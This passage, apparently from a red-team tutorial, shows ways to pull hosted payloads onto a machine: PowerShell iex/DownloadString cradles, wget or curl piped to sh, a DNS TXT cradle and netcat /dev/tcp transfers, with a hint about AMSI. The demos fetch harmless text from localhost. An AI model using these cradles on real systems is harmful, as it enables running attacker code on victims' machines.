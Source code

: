 Now with the files hosted there is a variety of ways to download them. Here’s a few most generic/common ones:

```powershell
PS C:\Users\Dev> iex (iwr -UseBasicParsing '127.0.0.1:8000')
the
index
file

PS C:\Users\Dev> IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1:8000/otherfile.woff')
the
other
file
```
(Remember about AMSI when running on Windows!)

```bash
$ wget -O - 127.0.0.1:8000 | sh
--2024-08-27 21:21:30--  http://127.0.0.1:8000/
Connecting to 127.0.0.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20 [text/html]
Saving to: ‘STDOUT’

-                            0%[                                       ]       0  --.-KB/s               the index file
-                          100%[======================================>]      20  --.-KB/s    in 0s      

2024-08-27 21:21:30 (1.58 MB/s) - written to stdout [20/20]

$ curl 127.0.0.1:8000/otherfile.woff | sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    20  100    20    0     0  10136      0 --:--:-- --:--:-- --:--:-- 20000
the other file
```

There are ways other than HTTP for hosting the payloads that may be better suited for your use case. Such as this one from [Alh4zr3d](https://twitter.com/Alh4zr3d/status/1566489367232651264) using the DNS TXT record ([FakeDns](https://github.com/Paliak/FakeDns) may be useful here):
```powershell
powershell . (nslookup -q=txt http://localtestdomain.test 127.0.0.1)[-1]
```
or even through raw TCP sockets using netcat and built-in bash (make sure your version of bash actually has them) [redirections](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Redirections):
```bash
[Terminal 1]$ cat index.html | nc -lvnp 8000
listening on [any] 8000 ...

[Terminal 2]$ exec <> /dev/tcp/127.0.0.1/8000
[Terminal 2]$ echo the index file
the index file

[Terminal 1]$ cat index.html | nc -lvnp 8000
listening on [any] 8000 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49444
```
